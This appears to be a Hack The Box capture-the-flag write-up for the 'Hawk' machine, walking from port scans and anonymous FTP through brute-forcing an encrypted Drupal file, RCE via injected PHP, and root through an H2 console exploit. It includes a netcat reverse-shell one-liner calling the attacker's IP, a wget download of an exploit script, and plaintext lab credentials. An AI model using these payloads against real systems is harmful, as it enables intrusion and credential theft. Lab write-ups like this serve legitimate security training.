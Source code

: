 # [Hawk](https://app.hackthebox.com/machines/Hawk)

```bash
nmap -p- --min-rate 10000  10.10.10.102 -Pn
```

![Alt text](img/image.png)

After knowing open ports(21,22,80,5435,8082,9092), let's do greater nmap scan.

```bash
nmap -A -sC -sV -p21,22,80,5435,8082,9092 10.10.10.102 -Pn
```

![Alt text](img/image-1.png)


Let's start from FTP(port 21) that we find which we can login via '**anonymous**' user.

![Alt text](img/image-2.png)



Let's try to analyze the file which we find from FTP.

```bash
file .drupal.txt.enc
```

![Alt text](img/image-3.png)


Let's first `base64` decoding.

```bash
base64 -d .drupal.txt.enc > drupal_ssl
file drupal_ssl
```

![Alt text](img/image-4.png)


I just make brute-force to decrypt this file. For this I find such [tool](https://github.com/glv2/bruteforce-salted-openssl) on Github.


Note: This tool is also available on Kali (as built-in). 

Here,we do brute-force attack to decrypt this file by using tool called `bruteforce-salted-openssl`

```bash
bruteforce-salted-openssl -t 6 -f /usr/share/wordlists/rockyou.txt drupal_ssl -c aes-256-cbc -d sha256
```

![Alt text](img/image-5.png)

We find password that is '**friends**',

As we know password, we can decrypt this via `openssl` command.

```bash
openssl enc -d -aes256 -md sha256 -salt -in drupal_ssl -out drupal_decrypted -k friends
```

![Alt text](img/image-6.png)


Now, we know password of 'admin' user for service on port 80.

admin: PencilKeyboardScanner123

We can login via above credentials.

![Alt text](img/image-7.png)


First, we need to add 'PHP Code' filter from 'Modules' section of application.

![Alt text](img/image-8.png)


Then, we just click 'Add Content' -> 'Basic Page', we can enter malicious PHP code to get RCE.

```bash
<?php system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.9 1337 >/tmp/f'); ?>
```

![Alt text](img/image-9.png)

I got reverse shell.

![Alt text](img/image-10.png)


Let's make interactive shell.

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
Ctrl+Z
stty raw -echo; fg
export TERM=xterm
export SHELL=bash
```

![Alt text](img/image-11.png)


user.txt

![Alt text](img/image-12.png)

While enumerating machine, I find file '/var/www/html/sites/default/settings.php' that contains sensitive information.

![Alt text](img/image-13.png)


That's password of 'daniel' user.

![Alt text](img/image-14.png)

daniel: drupal4hawk


But, there's something that I have Python shell while logging via 'daniel' user.

I just see why it is happens from '/etc/passwd' file.

![Alt text](img/image-15.png)


To get normal interactive shell, just did below.

```bash
import os
os.system("/bin/bash")

```

![Alt text](img/image-16.png)


If we pay attention to our nmap scan, we saw that there is database running for port (**8082**)

That is **'H2 database http console'**

Let's search publicly known exploit.

![Alt text](img/image-17.png)


Let's upload this malicious script into target machine by opening http server.

```bash
python3 -m http.server --bind 10.10.14.9 8080
```

![Alt text](img/image-18.png)

Let's download into target machine.

```bash
wget http://10.10.14.9:8080/45506.py
```

![Alt text](img/image-19.png)


Let's change privileges of this file and execute.

```bash
chmod 777 45506.py
python3 45506.py -H 127.0.0.1:8082
```

root.txt

![Alt text](img/image-20.png)